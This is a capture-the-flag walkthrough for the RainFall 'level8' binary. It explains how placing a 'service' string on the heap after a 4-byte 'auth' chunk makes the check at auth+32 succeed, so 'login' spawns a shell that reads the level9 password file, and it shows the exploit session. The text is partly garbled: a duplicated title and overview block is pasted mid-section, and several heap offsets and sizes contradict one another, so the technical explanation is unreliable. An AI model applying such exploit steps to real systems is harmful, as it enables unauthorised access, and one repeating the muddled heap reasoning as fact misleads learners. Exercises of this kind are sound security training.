 # Level8 Walkthrough 

## 🎯 Goal
Exploit a heap overflow vulnerability in `level8` to gain a shell and read the password for `level9`.

---

## 🔍 Binary Overview

From the disassembly:

- `auth` command:
  ```asm
  0x080485e4 <+128>:  malloc(4)
  0x080485fa <+150>:  *(auth) = 0
  0x08048625 <+193>:  cmp $0x1e, ...  jne skip_strcpy
  0x0804863d <+217>:  strcpy(auth, payload)
  ```
  - Allocates **4 bytes** on the heap.
  - Stores the pointer at `0x8049aac`.
  - Copies payload **only if <= 30 bytes** (bounds checked).
  
- `service` command:
  ```asm
  0x080486ab <+327>:  strdup(payload)
  0x080486b0 <+332>:  service pointer stored at 0x8049ab0
  ```
  - Allocates memory with `strdup` (length = string + 1 for null terminator).  
  - Stores pointer at `0x8049ab0`.  

- `login` command:
  ```asm
  0x080486e2 <+382>:  if (auth && *((int *)(auth + 32)))
  0x080486ee <+394>:      system("/bin/sh")
  ```
  - Checks **32 bytes past auth pointer**.  
  - If non-zero → triggers shell.

---

## 🧱 Heap Layout & Vulnerability

### Heap after `auth AAAA`:

```
Address      | Data
-------------------------
0x804a008    | Auth user: AAAA
0x804a00c    | malloc metadata (prev_size + size)
```

### Heap after `service BBBB` with `strdup`:

```
0x804a018    | Service data: BBBB...
0x804a01C    | null terminator added by strdup
```

**Memory relationship:**

```
auth chunk: 4 bytes user data + 8 bytes malloc header
service chunk: strlen(payload)+1 bytes + 8 bytes malloc header
```

**Check `auth + 32`:**

- `auth` user data: 4 bytes  
- Auth header: 8 bytes  
- Service header: 8 bytes  
- First 12–16 bytes of service payload reach `auth + 32`  

💡 That’s why **16 bytes of service payload** is enough to satisfy the `login` check.  

---

## 🚀 Exploit Strategy

### Step 1: Create Auth Structure

```
> auth AAAA
```

- Allocates **4-byte chunk** on the heap.  
- Pointer saved in `0x8049aac`.  
- Memory layout:

```
0x804a008: AAAA
0x804a00c: malloc header
```

### Step 2: Overflow Service Chunk

```
> service AAAAAAAAAAAAAAAA
```

- `strdup` allocates **length = 16+1 bytes**.  
- Writes payload into heap.  
- Because of heap adjacency, **first 16 bytes of service payload reach `auth + 32`**.  

Memory layout:Level8 Walkthrough – Heap Overflow Exploit
🎯 Goal

Exploit a heap overflow vulnerability in level8 to gain a shell and read the password for level9.

🔍 Binary Overview

From the disassembly:

auth command:

```
0x804a008: AAAA           <- auth user
0x804a00c: header         <- auth metadata
0x804a018: AAAAAAAAAAAAAAAA <- service payload (overflows into auth + 32)
0x804a01c: 00             <- strdup null terminator
```

- Now `*((int *)(auth + 32)) != 0` → triggers shell in `login`.

### Step 3: Trigger Shell

```
> login
```

- Checks `if (auth && *((int *)(auth + 32)))`.  
- Condition true due to service overflow.  
- Executes `system("/bin/sh")`.  

---

## ✅ Key Technical Details

1. **Auth vs Service allocation:**
   - `auth` uses `malloc(4)` → small, fixed size.  
   - `service` uses `strdup()` → allocates exact string length + 1.  

2. **Heap adjacency** is crucial:
   - Small `auth` chunk placed before service chunk.  
   - Overflow from service payload reaches `auth + 32`.  

3. **Overflow length:**
   - Minimum ~16 characters for service payload needed.  
   - Anything shorter → does **not** set the memory at `auth + 32`.  
   - Anything longer → safely triggers shell.

4. **Bounds checking:**
   - `auth` uses `strcpy` with `<=30` check → cannot overflow `auth`.  
   - `service` uses `strdup` → **no overflow protection**.  

5. **Memory Corruption:**
   - Only the **value at auth + 32** is relevant.  
   - Other bytes of `auth` or `service` do not need to be corrupted.  

---

## 💡 Exploit Example

```text
level8@RainFall:~$ ./level8
(nil), (nil)
auth AAAA
0x804a008, (nil)
service AAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$ cat /home/user/level9/.pass
<password>
```

- 16 `A`s in service → enough to hit `auth + 32`.  
- Pointer arithmetic + heap layout makes it predictable.  

---

